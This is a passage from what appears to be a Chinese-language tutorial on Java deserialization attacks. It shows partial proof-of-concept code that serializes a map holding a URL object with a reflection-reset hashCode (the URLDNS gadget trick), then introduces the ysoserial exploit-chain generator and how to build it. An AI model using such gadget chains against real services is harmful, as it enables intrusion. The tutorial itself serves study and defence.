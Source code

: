 ```java
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

![image-20220918233654716](images/image-20220918233654716.png)

## ysoserial的实现

`ysoserial`是`java`反序列化利用链的集合工具，可以根据我们需要的利用链生成反序列 POC。项目地址：

```
https://github.com/frohoff/ysoserial
```

下载源代码后导入 idea，根据`pom.xml`文件中的引导设置`GeneratePayload.java`文件为`mainClass`
![image-20220919172929224](images/image-20220919172929224.png)
